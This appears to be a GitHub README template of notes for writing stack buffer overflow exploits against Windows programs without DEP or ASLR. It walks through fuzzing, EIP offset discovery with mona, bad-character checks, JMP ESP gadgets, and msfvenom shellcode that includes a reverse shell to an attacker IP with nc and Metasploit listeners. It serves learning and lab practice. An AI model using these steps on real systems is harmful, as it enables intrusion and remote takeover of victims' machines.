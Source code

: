 # BufferOverflow-Template
Notes to help streamline the buffer overflow exploit process. 
(No DEP or ASLR)

## Files:
`fuzz.py`: Simple fuzzer in python to try and crash a program listening on a remote host by sending strings of variable length

`exploit.py`: PoC buffer overflow exploit script

## Exploit Steps:

### Fuzz
Trigger a stack overflow bug by identifying string input and fuzzing the program with different length strings. (See `fuzz.py`)

### Identify EIP
Identify the offset to the saved return pointer by using pattern_create.
`pattern_create.rb -l <Buffer Size>`, substitute the buffer into exploit.py and
trigger another crash. Use `!mona findmsp` to observe ESP and EIP. EIP will point to the address to overrwrite (say, Crash EIP).

### Control EIP
`pattern_offset.rb -l <Buffer Size> -q <Crash EIP>`
This will return the offset at which to place your saved return pointer. You've now got control of EIP.

### Check for bad characters in ESP
Set mona working directory: 
`!mona config -set workingfolder c:\mona\%p`

Create a buffer of all characters to send in ESP, generate this with mona: 
`!mona bytearray -cpb <Possible Bad Characters>`

Run the exploit. 
Compare characters in ESP with mona:

`!mona compare -a esp -f c:\mona\bytearray.bin`

Mona will suggest possible bad characters

### Find a JMP ESP gadget
Use mona to find a gadget such as JMP ESP in the binary that will let us fill EIP with a jump to our malicious code that doesn't contain bad characters:
(Example, bad characters are x00\x09)

`!mona jmp -r esp -cbp "\x00\x09"`
Make sure to reverse this address for little endian machines (x86):
0xDEADBEEF -> \xEF\xBE\xAD\xDE

### Test your JMP
Using your exploit string, jump to a breakpoint in order to not crash the program but verify your jump gadget is working as intended: 

`buf += "A" * offset_return_pointer`
`buf += jmp_esp_gadget`
`buf += "\xCC\xCC\xCC\xCC"`
`buf += "D" * (total_buffer_length - len(buf))`
`buf += "\n"`

This exploit string should trigger a breakpoint if you've successfully jumped to ESP.

### Generate shellcode and give yourself some room
Use Metasploit's metasm_shell.rb (/usr/share/metasploit-framework/tools/exploit/metasm_shell.rb in Kali) to move ESP up the stack and away from shellcode.

`metasm > sub esp,0x10`
`"\x83\xec\x10"`

Place this after your jmp_esp gadget (no need to reverse, this is an instruction).

Generate some shellcode with msfvenom to trigger calc:
`msfvenom -p windows/exec -b <BAD CHARACTERS> -f python --var-name calc_pop CMD=calc.exe EXITFUNC=thread`

When thrown into your exploit, the shellcode generated from the above command should open calc.exe.

Generate some shellcode for a reverse shell:
`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b <BAD CHARACTERS> -f python --var-name rev_shell EXITFUNC=thread`

Set up a listener with nc or metasploits multi/handler: 
`nc -nvlp <ATTACKER_PORT>`

`msfconsole`
`> use exploit multi/handler`
`> payload windows/meterpreter/reverse_tcp`
`> set lhost <ATTACKER IP>`
`> set lport <ATTACKER PORT>`
`> exploit -j`

